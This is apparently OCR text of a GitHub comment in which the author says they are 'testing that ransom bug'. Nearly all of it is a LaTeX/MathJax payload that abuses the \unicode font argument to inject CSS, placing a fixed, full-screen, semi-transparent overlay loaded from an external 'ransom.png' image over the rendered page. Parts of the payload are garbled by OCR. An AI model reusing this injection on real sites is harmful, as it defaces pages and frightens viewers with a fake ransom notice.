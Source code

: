 testing that ransom bug pls dont ban I havent got a job yet

$$\ce{$8#x5C;unicode[goombafont; color:red; pointer-events: none; z-index: ~10; position: fixed; top: 0; left: 0; height:
100vh; object-fit: cover; background-size: cover; width: 130vw; opacity: 0.5; background:
urlChttps://github.com/vmfunc/vmfunc/blob/main/ransom.png?raw=true’);}{x0000}$}$$
